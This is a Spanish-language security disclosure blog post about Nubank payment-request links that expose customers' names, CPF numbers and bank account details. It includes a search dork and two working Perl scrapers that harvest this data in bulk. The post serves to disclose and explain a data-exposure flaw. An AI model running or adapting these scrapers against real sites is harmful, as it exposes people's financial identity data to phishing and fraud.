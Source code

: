 ```yaml
---
layout: content
title: 'Un pequeño caso de scraping de datos personales expuestos en la web'
description: 'Durante la realización de una investigación de seguridad en aplicaciones móviles, se identificó una funcionalidad en la aplicación de Nubank que permite la creación y el envío de "links de cobro" a múltiples destinatarios. Se descubrió una vulnerabilidad en esta funcionalidad que permitió mapear datos personales, como CPF, nombre completo, número y agencia de la cuenta de varios clientes.'
og_image: https://heitorgouvea.me/images/publications/nubank-scraping/google-dorks.png
---
```


Tabla de contenido:
- [Resumen](#resumen)
- [Descripción](#descricion)
- [Prueba de concepto](#prueba-de-concepto)
- [Impacto](#impacto)
- [Conclusión](#conclusión)
- [Referencias](#referencias)

### Resumen

Durante la realización de una investigación de seguridad en aplicaciones móviles, se identificó una funcionalidad en la aplicación de Nubank que permite la creación y el envío de "links de cobro" a múltiples destinatarios. Se descubrió una vulnerabilidad en esta funcionalidad que permitió mapear datos personales como CPF, nombre completo, número y agencia de la cuenta bancaria de varios clientes.

DISCLAIMER: La empresa responsable fue notificada de todos los detalles de esta investigación en el menor tiempo posible y respondió de manera ética y transparente, demostrando atención y compromiso con la seguridad de la funcionalidad. Durante las pruebas realizadas, no hubo invasión ni violación de sistemas. Además, la empresa implementó algunas medidas correctivas para reducir los riesgos potenciales asociados al problema reportado. Se proporcionaron recomendaciones adicionales para mitigar la vulnerabilidad, pero la empresa optó por no implementarlas en su totalidad.

Esta publicación también está disponible en: [Portugués](/2020/06/23/Scraping-dados-pessoais-na-web) e [Inglés](/2020/06/23/Scraping-personal-data-exposure-in-the-web);

---

### Descrición

Dentro de la aplicación de Nubank, existe una funcionalidad llamada "Cobrar". Su funcionamiento consiste en: 1) ingresar un valor si se desea, 2) hacer clic en confirmar y 3) se genera un código QR, con la opción de compartirlo o enviarlo a través de otra aplicación, como WhatsApp:

![](/images/publications/nubank-scraping/creating-a-link.png)

![](/images/publications/nubank-scraping/whatsapp-shared-link.png)

El contenido del código QR es el mismo enlace que puede compartirse a través de aplicaciones de mensajería. Cuando el enlace se abre en el navegador, se obtiene el siguiente resultado:

![](/images/publications/nubank-scraping/personal-infos.png)

Se exponen, sin ningún tipo de control, algunos datos del usuario que generó el enlace, como: nombre completo, CPF, número de cuenta bancaria y agencia. El único requisito para obtener esta información sensible[1] es poseer dicha URL.

La URL en cuestión es generada exclusivamente por el cliente en su aplicación, y también es responsabilidad del cliente decidir cómo y con quién compartir cada URL generada.

Sin embargo, estas URLs son indexadas por motores de búsqueda, lo que permite el uso de dorks[2] para identificar más URLs relacionadas a este servicio.

Dork para restringir la búsqueda al sitio principal de Nubank, donde las URLs contengan el patrón "/pagar/" y se excluyan los resultados del blog:

```text
site:nubank.com.br inurl:/pagar/ -blog
```

Resultado:

![](/images/publications/nubank-scraping/google-dorks.png)

Además, es posible observar que algunos usuarios publicaban estas URLs en otros canales, como Twitter. Un uso común de la funcionalidad sería para recibir donaciones.

![](/images/publications/nubank-scraping/twitter-links.png)

---

### Prueba de concepto

Para demostrar el impacto del abuso de esta funcionalidad, se creó una prueba de concepto. La primera parte de esta PoC consiste en la construcción de un código capaz de utilizar un motor de búsqueda para colectar la mayor cantidad posible de URLs. Se desarrolló un scraper[3] utilizando Bing:

```perl
#!/usr/bin/env perl

use 5.030;
use strict;
use warnings;
use WWW::Mechanize;
use Mojo::Util qw(url_escape);

sub main {
    my $dork = $ARGV[0];

    if ($dork) {
        $dork = url_escape($dork);

        my %seen  = ();
        my $mech = WWW::Mechanize -> new();

        $mech -> ssl_opts (verify_hostname => 0);

        for my $page (0 .. 10) {
            my $url = "https://wwww.bing.com/search?q=${dork}&first=${page}0";

            $mech -> get($url);

            my @links = $mech -> links();

            foreach my $link (@links) {
                $url = $link -> url();

                next if $seen{$url}++;

                if ($url =~ m/^https?/ && $url !~ m/bing|live|microsoft|msn/) {
                    print $url, "\n";
                }
            }
        }
    }
}

exit main();
```

Con este código, fue colectado 100 URLs válidas — este valor fue limitado a 100 con fines demostrativos, pero podría haber sido mayor:

![](/images/publications/nubank-scraping/file-with-the-urls.png)

Después de colectar las URLs en un archivo .txt, se desarrolló otro scraper para extraer los datos desde la página de Nubank:

```perl
#!/usr/bin/env perl

use 5.030;
use strict;
use warnings;
use Mojo::DOM;
use Mojo::UserAgent;

binmode(STDOUT, ":encoding(UTF-8)");

sub main {
    my $urls_file = $ARGV[0];

    if ($urls_file) {
        my $userAgent = Mojo::UserAgent -> new (
            agent => "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)"
        );
        
        open my $urls_filehandle, "<", $urls_file or die $!;

        while (<$urls_filehandle>) {
            chomp ($_);
            
            my $request = $userAgent -> get($_) -> result();

            if ($request -> is_success()) {
                my $account = $request -> dom -> find("tr td") -> map("text") -> join(",");

                $account =~ s/Nome,//
                && $account =~ s/CPF,//
                && $account =~ s/Banco,//
                && $account =~ s/Tipo da conta,//
                && $account =~ s/Agência,//
                && $account =~ s/Conta,//
                && $account =~ s/Agência Métodos,//;

                say $account;
            }
        }

        close ($urls_filehandle);
    }
}

exit main();
```

Y el resultado obtenido:

![](/images/publications/nubank-scraping/collect-with-names-cpfs.png)

CPF, nombre completo, número de cuenta y agencia de 100 personas, en tan solo unos minutos y con pocas líneas de código.

### Impacto

La posibilidad de que un atacante abuse de esta funcionalidad disponible en los sistemas de Nubank es alta debido a la facilidad de explotación. Esto puede exponer a varios usuarios, filtrando información sensible como se ilustró anteriormente. Además, un atacante con estos datos en mano podría utilizarlos para desarrollar una estrategia de ingeniería social muy bien dirigida.

### Conclusión

A través de este análisis, es posible afirmar que un agente malicioso podría implementar scrapers para mapear las URLs de cobro de Nubank y, posteriormente, colectar la información personal presente en ellas. Este artículo presentó una PoC como una de esas implementaciones, utilizando un motor de búsqueda, pero aún existe espacio para otros canales como redes sociales (Twitter, Facebook y otras). Este escenario podría utilizarse para convertir a los clientes de Nubank en víctimas de ataques de spear phishing o ingeniería social.

---

### Referencias

- [1] [https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A3-Sensitive_Data_Exposure](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A3-Sensitive_Data_Exposure)
- [2] [https://en.wikipedia.org/wiki/Google_hacking](https://en.wikipedia.org/wiki/Google_hacking)
- [3] [https://en.wikipedia.org/wiki/Web_scraping](https://en.wikipedia.org/wiki/Web_scraping)